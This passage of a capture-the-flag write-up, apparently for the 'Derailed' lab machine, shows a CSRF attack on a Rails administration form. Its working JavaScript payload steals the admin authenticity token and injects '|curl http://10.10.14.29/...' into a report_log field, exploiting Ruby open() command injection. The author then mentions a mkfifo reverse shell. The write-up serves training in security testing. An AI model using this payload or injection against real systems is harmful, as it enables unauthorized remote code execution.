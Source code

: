 This form seems to download something and it has a value that is fixed. Since this is a POST request, we need to use CSRF to make the administrator send a request. The `value` parameter looked rather suspicious because it seems exploitable to an LFI.

So when doing CSRF, our payload would first need to do this:

* Retrieve the authenticity\_token value because we need that to verify we are indeed the administrator
* Send the POST request with an edited `report_log` value.
* Have a small delay to ensure that the page would load fully before attempting to find the elements required. I set the delay to 3 seconds.

I did some research around Ruby vulnerabilities, and found a few good articles:

{% embed url="https://bishopfox.com/blog/ruby-vulnerabilities-exploits" %}

Potentially, this form might be using the `open` function, which is vulnerable to RCE because of a deserialization exploit. I wanted to test this first. As such, I created this quick script:

```javascript
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", "http://derailed.htb:3000/administration", true);
xmlHttp.send( null );

setTimeout(function() {
    var doc = new DOMParser().parseFromString(xmlHttp.responseText, 'text/html');
    var token = doc.getElementById('authenticity_token').value;
    var newForm = new DOMParser().parseFromString('<form id="badform" method="post" action="/administration/reports">    <input type="hidden" name="authenticity_token" id="authenticity_token" value="placeholder" autocomplete="off">    <input id="report_log" type="text" class="form-control" name="report_log" value="placeholder" hidden="">    <button name="button" type="submit">Submit</button>', 'text/html');
    document.body.append(newForm.forms.badform);
    document.getElementById('badform').elements.report_log.value = '|curl http://10.10.14.29/rcecfmed';
    document.getElementById('badform').elements.authenticity_token.value = token;
    document.getElementById('badform').submit();
}, 3000);
```

When waiting around, I eventually got a callback via the `curl` command I injected.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can easily gain a reverse shell through this method. I used the `mkfifo` shell, and it worked!
